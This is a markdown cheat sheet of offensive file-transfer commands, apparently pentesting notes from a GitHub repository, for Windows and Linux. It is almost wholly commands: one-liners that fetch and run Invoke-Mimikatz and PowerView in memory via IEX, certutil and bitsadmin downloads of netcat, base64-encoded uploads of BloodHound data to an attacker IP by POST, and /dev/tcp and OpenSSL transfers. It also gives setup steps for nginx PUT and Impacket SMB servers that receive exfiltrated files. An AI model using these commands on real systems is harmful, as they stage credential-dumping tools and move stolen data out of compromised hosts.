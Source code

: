 | **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
|# linux
| **Command** | **Description** |
| --------------|-------------------|
| `OPPESLL Transfer File `
| `openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem` | Create certificate
| `openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh` | Stand up server
| `openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh` | Download file
| `exec 3<>/dev/tcp/10.10.10.32/80` | Bash (/dev/tcp) Connect to Target's Webserver
| `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3` | HTTP GET Request
| `cat <&3` | Print the Response
| `php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'` | Fopen()
| `php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'` | Php-curl
| `import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")` | python2
| `import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")` | python3
| `ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'` | ruby
| `perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'` | perl
|
|Go
|```
package main
import (
	 "os"
     "io"
     "net/http"
)

func main() {
     lfile, err := os.Create("LinEnum.sh")
     _ = err
     defer lfile.Close()

     rfile := "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"
     response, err := http.Get(rfile)
     defer response.Body.Close()

     io.Copy(lfile, response.Body)
}```


| `Windows`
|
| `(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")` | PowerShell Downloads
| `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`
| `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`
| `Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex`
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex;`
| `Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"`
| `Upload File Poweshell`
| ```$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))` 
|    Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64 ```
| `Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql`
|
| ```Catching Files over HTTP/SMB ```
| `Nginx Enable PUT`
| 1 - `sudo mkdir -p /var/www/uploads/SecretUploadDirectory`
| 2 - ` sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory`
| 3 - ```Create the NGINX Configuration file, by creating the file /etc/nginx/sites-available/upload.conf with the contents:```
```server {
	listen 9001;
	
	location /SecretUploadDirectory/ {
		root	/var/www/uploads;
		dav_methods	PUT;
	}
}
```
| 4-`Symlink our site to the sites-enabled directory.: sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/`
| 5 - `Start nginx : sudo systemctl restart nginx.service`
| 6 - `tail -2 /var/log/nginx/error.log`
| 7 - `sudo rm /etc/nginx/sites-enabled/default`
|
| ```Impacket SMBServer - Syntax```
| `smbserver.py -smb2support <share name> <location>`
| example : ```mkdir Transfers && cd Transfers
|             r00Tve0m@root[root]$ /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support FileTransfer $(pwd)```
|
|              ```smbserver.py -user USERNAME -password PASSWORD FileTransfer $(pwd)```
| 
